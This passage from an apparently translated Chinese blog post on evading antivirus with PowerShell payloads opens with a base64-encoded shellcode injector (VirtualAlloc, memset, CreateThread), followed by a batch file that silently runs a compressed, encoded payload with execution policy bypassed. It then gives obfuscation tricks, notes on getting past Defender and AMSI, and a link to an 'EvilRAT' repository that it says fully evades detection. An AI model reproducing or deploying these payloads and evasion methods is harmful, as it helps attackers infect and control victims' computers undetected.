MAB4ADgAYgAsADAAeAA1ADgALAAwAHgAYwAzACwAMAB4ADQAMQAsADAAeAA0ADQALAAwAHgANwAyACwAMAB4AGUANQAsADAAeAA3ADUALAAwAHgAZQBmACwAMAB4ADcAMwAsADAAeAAzAGMALAAwAHgAMAAwACwAMAB4AGMAZgAsADAAeABmADkALAAwAHgAYQA5ACwAMAB4ADYAMgAsADAAeAA1ADgALAAwAHgAMQAyACwAMAB4AGQANgAsADAAeAA3ADIALAAwAHgAMwAwACwAMAB4ADUAMQAsADAAeAAyADYALAAwAHgANAA3ACwAMAB4ADIAMAAsADAAeABhADYALAAwAHgAMQAzACwAMAB4AGUAOAAsADAAeABkADUALAAwAHgAYgA4ACwAMAB4AGYANAAsADAAeAAwADYALAAwAHgAYQAwACwAMAB4ADkAOQAsADAAeAA1ADMALAAwAHgAMQA5ACwAMAB4ADEAZQAsADAAeABiADcALAAwAHgAMQBiACwAMAB4ADgAZAAsADAAeABhADEALAAwAHgANQA4ACwAMAB4ADkAYwAsADAAeAA0AGQALAAwAHgAYwBhACwAMAB4ADUAOAAsADAAeAA5AGMALAAwAHgAMABkACwAMAB4ADAAYQAsADAAeAAwAGEALAAwAHgAZgA0ACwAMAB4AGQANQAsADAAeABhAGUALAAwAHgAZgBmACwAMAB4AGUAMQAsADAAeAAxAGEALAAwAHgANwBiACwAMAB4ADYAYwAsADAAeABiAGEALAAwAHgAYgA3ACwAMAB4ADAAZAAsADAAeAA3ADQALAAwAHgANgBhACwAMAB4ADUAZgAsADAAeAAwAGUALAAwAHgANQBiACwAMAB4ADkANQAsADAAeAA5AGYALAAwAHgANQBkACwAMAB4AGMAZAAsADAAeABmAGQALAAwAHgAOABkACwAMAB4AGYANwAsADAAeAA3ADgALAAwAHgAMQBmACwAMAB4ADQAZQAsADAAeAAyADIALAAwAHgAZgBmACwAMAB4ADIAMAAsADAAeABjADQALAAwAHgAMAAwACwAMAB4ADgAYgAsADAAeABhADYALAAwAHgAMgA1ACwAMAB4ADUAOAAsADAAeAAwADkALAAwAHgANgA4ACwAMAB4ADUAMAAsADAAeABiAGIALAAwAHgANABhACwAMAB4AGEAYQAsADAAeABjADUALAAwAHgAYQBiACwAMAB4ADEANgAsADAAeABkADMALAAwAHgAMAA2ACwAMAB4AGQANAAsADAAeABkADgALAAwAHgAMQAyACwAMAB4AGMAYQAsADAAeAAwADUALAAwAHgAMgBhACwAMAB4ADUAMwAsADAAeAAxADIALAAwAHgANwA0ACwAMAB4ADcAZAAsADAAeABiADUALAAwAHgANQAzACwAMAB4AGIAOAAsADAAeAA0ADkALAAwAHgAYwA5ADsAJABnACAAPQAgADAAeAAxADAAMAAwADsAaQBmACAAKAAkAHoALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMAB4ADEAMAAwADAAKQB7ACQAZwAgAD0AIAAkAHoALgBMAGUAbgBnAHQAaAB9ADsAJAByAFUAdABnAD0AJAB3ADoAOgBWAGkAcgB0AHUAYQBsAEEAbABsAG8AYwAoADAALAAwAHgAMQAwADAAMAAsACQAZwAsADAAeAA0ADAAKQA7AGYAbwByACAAKAAkAGkAPQAwADsAJABpACAALQBsAGUAIAAoACQAegAuAEwAZQBuAGcAdABoAC0AMQApADsAJABpACsAKwApACAAewAkAHcAOgA6AG0AZQBtAHMAZQB0ACgAWwBJAG4AdABQAHQAcgBdACgAJAByAFUAdABnAC4AVABvAEkAbgB0ADMAMgAoACkAKwAkAGkAKQAsACAAJAB6AFsAJABpAF0ALAAgADEAKQB9ADsAJAB3ADoAOgBDAHIAZQBhAHQAZQBUAGgAcgBlAGEAZAAoADAALAAwACwAJAByAFUAdABnACwAMAAsADAALAAwACkAOwBmAG8AcgAgACgAOwA7ACkAewBTAHQAYQByAHQALQBzAGwAZQBlAHAAIAA2ADAAfQA7ACcAOwAkAGUAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoAVABvAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBuAGkAYwBvAGQAZQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAagBGAEYAKQApADsAJABQAFQAdwAgAD0AIAAiAC0AZQBjACAAIgA7AGkAZgAoAFsASQBuAHQAUAB0AHIAXQA6ADoAUwBpAHoAZQAgAC0AZQBxACAAOAApAHsAJABpAFEASgBIACAAPQAgACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0ACAAKwAgACIAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAiADsAaQBlAHgAIAAiACYAIAAkAGkAUQBKAEgAIAAkAFAAVAB3ACAAJABlACIAfQBlAGwAcwBlAHsAOwBpAGUAeAAgACIAJgAgAHAAbwB3AGUAcgBzAGgAZQBsAGwAIAAkAFAAVAB3ACAAJABlACIAOwB9AA=='”
```

**用面纱制造的有效载荷:**

```
@echo off
if %PROCESSOR_ARCHITECTURE%==x86 (powershell.exe -NoP -NonI -W Hidden -Command “Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(\”nVPbbtswDH33VxCGgdqIbTiXFl2KAr0hW4EtK5piewjy4Chso1WWDIlO4nb599Gts61FNwzzy5El8pwjkgoEHMOJ700vlLosSmMp9O/RalT9XrpQyo9mUFZzJQU4yokBN8TncKnpiix8kZaqXJ0qZUTY7q1jqKQm2LRYt/gQHf23zrnFnPBmybDY6VQt7yqGX8rt6jftdqdR9088svVj4PjSY1wnn+ffUBBMakdYpGOkdGLEPZJrEcLpG2eni4VF50Z5IVU9Gw5ZAC0HrI29j+GtjGe8qUvk8AnxJYq3A6+sISOMakNvRBl5gUvPjdZsNNzrvuul3YPDtJt2s8FeDAP+IvgOpqJEV0odQVDy3aan1uaNteeyXWquqRYY+vOa0Oe0iAM3HMjc1yhQrjAMyldED3yeeUH9D3zTM0nscYWWK9H4NlyTfo854yzq7Ddq9TSbNYSbs5G3XkqFELJCoujvyRE8Nk46L63WcfDQ2Y+78Z+LPVL5nWO2sdEYwda7NZYV5XGXvUjWRRg0q06HFdhcIBt3O7pXjt4jnfFFXTjlkZqxkQ+5XiiMOCvpzrZeQJzLU5E0bYOkwGKO9gJvpZYkjYZAQDLOCwT/q9T9ng+J5j9X5gLhaWdUadFEOkjK3Dla2qpp0HFAw+GLF5bFQZ1+RH1Hyzjb9LMsYxhkkbdzfl1pkgWmTzNpygnalRTo0k+5dctcNS00Zd1UEDLu2/PbmIXBJt2VPYpi+CnC00e7rrePjxXjYBM3kL2cmAnllpKJQiwhmaAwegGHB4Ms24qcxPJx+wM=\”)))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();”) else (%WinDir%\syswow64\windowspowershell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command “Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(\”nVPbbtswDH33VxCGgdqIbTiXFl2KAr0hW4EtK5piewjy4Chso1WWDIlO4nb599Gts61FNwzzy5El8pwjkgoEHMOJ700vlLosSmMp9O/RalT9XrpQyo9mUFZzJQU4yokBN8TncKnpiix8kZaqXJ0qZUTY7q1jqKQm2LRYt/gQHf23zrnFnPBmybDY6VQt7yqGX8rt6jftdqdR9088svVj4PjSY1wnn+ffUBBMakdYpGOkdGLEPZJrEcLpG2eni4VF50Z5IVU9Gw5ZAC0HrI29j+GtjGe8qUvk8AnxJYq3A6+sISOMakNvRBl5gUvPjdZsNNzrvuul3YPDtJt2s8FeDAP+IvgOpqJEV0odQVDy3aan1uaNteeyXWquqRYY+vOa0Oe0iAM3HMjc1yhQrjAMyldED3yeeUH9D3zTM0nscYWWK9H4NlyTfo854yzq7Ddq9TSbNYSbs5G3XkqFELJCoujvyRE8Nk46L63WcfDQ2Y+78Z+LPVL5nWO2sdEYwda7NZYV5XGXvUjWRRg0q06HFdhcIBt3O7pXjt4jnfFFXTjlkZqxkQ+5XiiMOCvpzrZeQJzLU5E0bYOkwGKO9gJvpZYkjYZAQDLOCwT/q9T9ng+J5j9X5gLhaWdUadFEOkjK3Dla2qpp0HFAw+GLF5bFQZ1+RH1Hyzjb9LMsYxhkkbdzfl1pkgWmTzNpygnalRTo0k+5dctcNS00Zd1UEDLu2/PbmIXBJt2VPYpi+CnC00e7rrePjxXjYBM3kL2cmAnllpKJQiwhmaAwegGHB4Ms24qcxPJx+wM=\”)))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();”)
```

你可以看到三种情况的有效载荷被编码，它们都略有不同。但是重点是，**当它们被执行时，powershell 解码字符串并将有效载荷注入内存**。

这个技巧曾经奏效过一段时间，直到供应商修补了用最流行的有效载荷生成器生成的有效载荷。但是攻击者和开发者仍然在用模糊处理和改变签名来更新有效载荷。一旦您更改了有效负载的签名，而该签名不在防病毒数据库中，则无法检测到它。这是如何做到这一点的方法。

**例如，您可以用缩短的命令替换 powershell 命令:**

```
NoExit = -NoE
EncodedCommand = -Enc
Command = -C
```

诸如此类…

例如，你可以混淆命令:

```
Invoke-Expression = "In"+"vok"+"e"+"-E"+"xpre"+"ssion"
```

混淆可以通过多种方式完成，我不会深究，因为这是一个非常大的领域，我会把这个话题留给另一个故事。但是这里有一个链接，你可以找到非常酷的脚本混淆器，它可以帮你完成所有繁重的工作:[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)。

我们介绍了 powershell 有效负载是如何随着时间的推移而发展的，以及编码和混淆技巧是如何被用来避免检测的。但不幸的是，今天这并不容易。原因是微软在安全方面向前迈出了一大步，并通过 2018 年 4 月的更新(build 1803)改变了游戏规则。Windows 得到了重大更新，从那以后它们变得越来越好。我的意思是，现在仅仅在受害者计算机上下载有效载荷文件时避免检测是不够的，因为当有效载荷被执行时，windows defender 在解码有效载荷后，再次扫描代码。如果代码中包含任何可疑命令，如 VirtualAlloc、CreateThread 等。他会将代码发送到云中进行进一步分析，并停止执行，直到确定代码无害。有时，在您收到被执行的文件是恶意文件的通知后需要一天时间。所以下一步是在 powershell 负载被编码之前对其进行模糊处理，甚至需要重新编译整个代码。

我希望我能给你一些提示和方向，告诉你在哪里以及如何继续工作，以创造出能够完全绕过检测的强大有效载荷。你还需要考虑到微软 defender ATP 是与 AMSI 集成的，这对于对抗混淆非常有效。但是记住，总有办法的。

在这个故事的结尾，我会发布一个 [**链接到我的 github 库**](https://github.com/pr0xy-8L4d3/EvilRAT) ，在那里你可以找到 payload，它可以完全绕过检测，并且可以在 Windows 10 和 11 上工作。真正有趣的是，当我在 2 年后的昨天尝试这个代码时，它仍然在工作，我真的很震惊。为什么我感到震惊。它在 github 上，在野外，我不知道为什么它还没有被修补。厂商们还没有发现它，特别是微软，它也是 github 的所有者，我认为他们可能更了解 github 上传了什么。甚至更令人震惊的是。这种有效载荷也适用于 Windows 11，该代码在制作时甚至还没有发布。